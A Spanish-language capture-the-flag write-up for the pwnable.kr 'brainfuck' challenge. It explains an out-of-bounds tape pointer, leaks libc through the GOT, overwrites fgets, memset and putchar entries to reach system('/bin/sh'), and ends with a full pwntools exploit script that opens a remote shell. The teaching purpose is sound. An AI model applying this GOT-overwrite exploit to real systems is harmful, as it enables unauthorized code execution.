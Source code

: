# brain fuck

![brain fuck](https://github.com/user-attachments/assets/b750af83-b38c-4d6d-b176-d36f07eb3b9b)

Tenemos un interprete de brainfuck, que acepta una entrada de 0x400 bytes:
```
   0x08048700 <+143>:   mov    DWORD PTR [esp+0x8],0x400   
   0x08048708 <+151>:   mov    DWORD PTR [esp+0x4],0x0
   0x08048710 <+159>:   lea    eax,[esp+0x2c]
   0x08048714 <+163>:   mov    DWORD PTR [esp],eax
   0x08048717 <+166>:   call   0x80484c0 <memset@plt>
   0x0804871c <+171>:   mov    eax,ds:0x804a040
   0x08048721 <+176>:   mov    DWORD PTR [esp+0x8],eax
--Type <RET> for more, q to quit, c to continue without paging--
   0x08048725 <+180>:   mov    DWORD PTR [esp+0x4],0x400
   0x0804872d <+188>:   lea    eax,[esp+0x2c]
   0x08048731 <+192>:   mov    DWORD PTR [esp],eax
   0x08048734 <+195>:   call   0x8048450 <fgets@plt>
```

Hay una excelente introduccion a este lenguaje aqui: https://gist.github.com/roachhd/dce54bec8ba55fb17d3a

No podemos usar `[` ni `]` asi que no podemos hacer bucles, pero la entrada es suficientemente grande entonces nos hace falta.

La funcion `do_brainfuck` ejecuta la logica del interprete:
```
(gdb) disass do_brainfuck
Dump of assembler code for function do_brainfuck:
# La funcion maneja cada caracter especial: + - , . < >
   0x080485dc <+0>:     push   ebp
   0x080485dd <+1>:     mov    ebp,esp
   0x080485df <+3>:     push   ebx
   0x080485e0 <+4>:     sub    esp,0x24
   0x080485e3 <+7>:     mov    eax,DWORD PTR [ebp+0x8]
   0x080485e6 <+10>:    mov    BYTE PTR [ebp-0xc],al
   0x080485e9 <+13>:    movsx  eax,BYTE PTR [ebp-0xc]
   0x080485ed <+17>:    sub    eax,0x2b
   0x080485f0 <+20>:    cmp    eax,0x30
   0x080485f3 <+23>:    ja     0x804866b <do_brainfuck+143>
   0x080485f5 <+25>:    mov    eax,DWORD PTR [eax*4+0x8048848]             
   0x080485fc <+32>:    jmp    eax                                   <--- Salta a un indice en 0x8048848 que redirige a cada uno de los handlers de esta funcion
   0x080485fe <+34>:    mov    eax,ds:0x804a080                      <-- handler de '>'
   0x08048603 <+39>:    add    eax,0x1
   0x08048606 <+42>:    mov    ds:0x804a080,eax
   0x0804860b <+47>:    jmp    0x804866b <do_brainfuck+143>
   0x0804860d <+49>:    mov    eax,ds:0x804a080                      <-- handler de '<'
   0x08048612 <+54>:    sub    eax,0x1
   0x08048615 <+57>:    mov    ds:0x804a080,eax
   0x0804861a <+62>:    jmp    0x804866b <do_brainfuck+143>
   0x0804861c <+64>:    mov    eax,ds:0x804a080                      <-- handler de '+'
   0x08048621 <+69>:    movzx  edx,BYTE PTR [eax]
   0x08048624 <+72>:    add    edx,0x1
   0x08048627 <+75>:    mov    BYTE PTR [eax],dl
   0x08048629 <+77>:    jmp    0x804866b <do_brainfuck+143>
   0x0804862b <+79>:    mov    eax,ds:0x804a080                      <-- handler de '-'
   0x08048630 <+84>:    movzx  edx,BYTE PTR [eax]
   0x08048633 <+87>:    sub    edx,0x1
   0x08048636 <+90>:    mov    BYTE PTR [eax],dl
   0x08048638 <+92>:    jmp    0x804866b <do_brainfuck+143>
   0x0804863a <+94>:    mov    eax,ds:0x804a080                      <-- handler de ','
   0x0804863f <+99>:    movzx  eax,BYTE PTR [eax]
   0x08048642 <+102>:   movsx  eax,al
   0x08048645 <+105>:   mov    DWORD PTR [esp],eax
--Type <RET> for more, q to quit, c to continue without paging--c
   0x08048648 <+108>:   call   0x80484d0 <putchar@plt>
   0x0804864d <+113>:   jmp    0x804866b <do_brainfuck+143>
   0x0804864f <+115>:   mov    ebx,DWORD PTR ds:0x804a080
   0x08048655 <+121>:   call   0x8048440 <getchar@plt>               <-- handler de '.'
   0x0804865a <+126>:   mov    BYTE PTR [ebx],al
   0x0804865c <+128>:   jmp    0x804866b <do_brainfuck+143>
   0x0804865e <+130>:   mov    DWORD PTR [esp],0x8048830
   0x08048665 <+137>:   call   0x8048470 <puts@plt>
   0x0804866a <+142>:   nop
   0x0804866b <+143>:   add    esp,0x24
   0x0804866e <+146>:   pop    ebx
   0x0804866f <+147>:   pop    ebp
   0x08048670 <+148>:   ret
End of assembler dump.
```

`0x804a080` es un puntero al tape (array de celdas de brainfuck) y no hay ninguna verificacion de limites asi que hay una vulnerabilidad "Out-Of-Bounds", o sea, podemos movernos fuera del tape y ganar lectura y escritura arbitraria en un rango de direcciones moderado.

El tape se encuentra en `0x804a0a0`, podemos ver que se asigna en main:
```
 0x080486de <+109>:   mov    DWORD PTR ds:0x804a080,0x804a0a0
```

### Filtrar libc

El binario no tiene PIE, asi que las direcciones de memoria son fijas. Al momento de introducir nuestra entrada se usa `fgets`, entonces fgets@GOT ya contiene la direccion de puts en libc.

Podemos desplazarnos desde el tape hacia alli e imprimir su contenido:
``` python
 tape_start = 0x804a0a0
 fgets_got = 0x0804a010

# Leak fgets@got
payload = b'<' * (tape_start - fgets_got)
payload += b'.>' * 4 + b"," + b"<" * 4      # "<" * 4 solo por consistencia para volver a la direccion exacta de fgets_got,
                                            # dado que luego realizaremos mas calculos y tenemos espacio de sobra en el buffer

# Leak libc 
io.sendlineafter(b"]\n",payload)
time.sleep(1.5)

libc_fgets = u32(io.recv(4))
libc.address = libc_fgets - libc.sym['fgets']

log.info(f"fgets@got: {hex(libc_fgets)}")
log.info(f"libc.base: {hex(libc.address)}")

io.send(b"\x00")   # Necesitamos ',' para parar la interaccion y poder filtrar la direccion
                   # Enviamos cualquier byte (realmente este byte que escribimos es de  __stack_chk_fail@GLIBC_2.4, cosa que no importa mucho entonces)
```

### ret2libc

Necesitamos llamar a `system("/bin/sh")` para invocar una shell, pero no controlamos el stack, o si?

Veamos las llamadas a libc del programa:
```
ltrace ./brainfuck
__libc_start_main(0x8048671, 1, 0xffc7e2c4, 0x80487a0 <unfinished ...>
setvbuf(0xf7f1ed40, 0, 2, 0)                         = 0
setvbuf(0xf7f1e5c0, 0, 1, 0)                         = 0
puts("welcome to brainfuck testing sys"...welcome to brainfuck testing system!!
)          = 38
puts("type some brainfuck instructions"...type some brainfuck instructions except [ ]
)          = 44
memset(0xffc7ddfc, '\0', 1024)                       = 0xffc7ddfc
fgets(data
"data\n", 1024, 0xf7f1e5c0)                    = 0xffc7ddfc
strlen("data\n")                                     = 5
strlen("data\n")                                     = 5
strlen("data\n")                                     = 5
strlen("data\n")                                     = 5
strlen("data\n")                                     = 5
strlen("data\n")                                     = 5
+++ exited (status 0) +++
```

El programa primero llama a `memset(direccion_del_buffer_en_el_stack,relleno,size)`, y luego a `fgets(direccion_del_buffer_en_el_stack,size,fd)`

Podemos:
- Reemplazar el puntero en `memset@GOT` con `gets` para escribir lo que queramos en el stack (`/bin/sh`!) (`memset(buffer,...,...)` -> `gets(buffer)`)
- Reemplazar el puntero en `fgets@GOT` con `system`, que lee como primer parametro lo que ya escribimos en el buffer. (`fgets(buffer,...,...)` -> `system(buffer,...,...)`)

Pero aunque podemos lograr esto necesitamos desencadenar esa secuencia de llamadas, debemos retornar a `main`.

Para ello reemplazaremos el puntero en `putchar@GOT` con la direccion de `main`. Ahora podemos desencadenar la llamada a `main` con un '.'

### Exploit

``` python
from pwn import *
elf = context.binary = ELF("./brainfuck")
libc = ELF("./libc-2.23.so")
#context.log_level = "debug"

io = remote("pwnable.kr",9001)

tape_start = 0x804a0a0
fgets_got = 0x0804a010
memset_got = 0x0804a02c
putchar_got = 0x804a030

# Leak fgets@got
payload = b'<' * (tape_start - fgets_got)
payload += b'.>' * 4 + b"," + b"<" * 4

# Overwrite fgets@got with system
payload += b",>" * 4 + b"<" * 4

# Overwrite memset@got with gets
payload += b">" * (memset_got - fgets_got)
payload += b",>" * 4 + b"<" * 4

# Overwrite putchar@got with main
payload += b">" * (putchar_got - memset_got)
payload += b",>" * 4 + b"<" * 4
payload += b"."

# Leak libc 
io.sendlineafter(b"]\n",payload)
time.sleep(1.5)

libc_fgets = u32(io.recv(4))
libc.address = libc_fgets - libc.sym['fgets']

log.info(f"fgets@got: {hex(libc_fgets)}")
log.info(f"libc.base: {hex(libc.address)}")

io.send(b"\x00")

# fgets@got --> system
io.send(p32(libc.sym['system']))

# memset@got --> gets
io.send(p32(libc.sym['gets']))

# putchar@got --> main
io.send(p32(elf.sym['main']))

# gets(buffer)
io.sendlineafter(b"]\n",b"/bin/sh")

# Shell
io.interactive()
```





